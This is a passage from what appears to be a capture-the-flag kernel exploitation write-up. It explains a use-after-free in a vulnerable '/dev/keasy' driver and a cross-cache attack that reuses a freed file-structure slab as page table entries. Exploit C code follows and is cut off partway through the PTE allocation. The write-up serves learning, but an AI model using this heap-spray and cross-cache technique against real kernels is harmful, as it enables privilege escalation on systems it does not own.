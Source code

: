 So now lets trigger our UAF on a PTE structure.

we first, call tons of times to `mmap`, to let the MMU know that these addresses will be used by us. At this stage, the kernel haven't allocated our PTE's yet, it will only when a page fault occurs, so when they are accessed via userspace.

Then , we spray tons of files, by opening a random file. We set one of them to be our UAF'ed file. This will fill up the dedicated slub cache.

Now, when we free all those structures, the buddy allocator will free this slub cache, and this memory will not be used.

Then, when we actually allocate the pte's, the slub allocator will allocate a new dedicated slub cache for the PTE's, over the previously freed slub cache, which was the file structures slub cache.

Since we can still use one of the files there, we can corrupt data in the PTE struct!

Here is how we trigger this attack:

```c
#include <unistd.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/mman.h>

#define FILES_COUNT 0x200
#define PAGES_COUNT 0x100
#define MEM_BASE 0x696900000
int main(int argc, char const *argv[]) {
  
  int fd_spray[2*FILES_COUNT] = {0};
  int pages_spray[FILES_COUNT] = {0};

  printf("Openining the vulnarable device...\n");
  int fd = open("/dev/keasy", O_RDWR);  

  for (int i = 0; i < PAGES_COUNT; i++) {
    pages_spray[i] = mmap(i*0x2000 + MEM_BASE, 0x1000, PROT_WRITE|PROT_READ, MAP_ANONYMOUS|MAP_SHARED, -1, 0);
  }

  for(int i = 0; i < PAGES_COUNT; i++){
    fd_spray[i] = open("/etc/passwd", O_RDONLY);
  }

  int dangeling_fd = fd_spray[PAGES_COUNT - 1] + 1;

  printf("Freeing the file structure...\n");
  if (ioctl(fd, 0, 0x69696969) != -1){ //if the ioctl didn't fail
    printf("ERROR");
    exit(1);
  }

  printf("Filling up the filp slab cache...\n");
  for(int i = 0; i < PAGES_COUNT; i++){
    fd_spray[PAGES_COUNT + i] = open("/etc/passwd", O_RDONLY);
  }

  printf("Relasing the slab cache back to the buddy allocator...\n");
  for (int i = 0; i < PAGES_COUNT * 2; i++){
    close(fd_spray[i]);
  }
	
  printf("Allocating ptes...\n");
  for (int i = 0; i < PAGES_COUNT; i++) {
```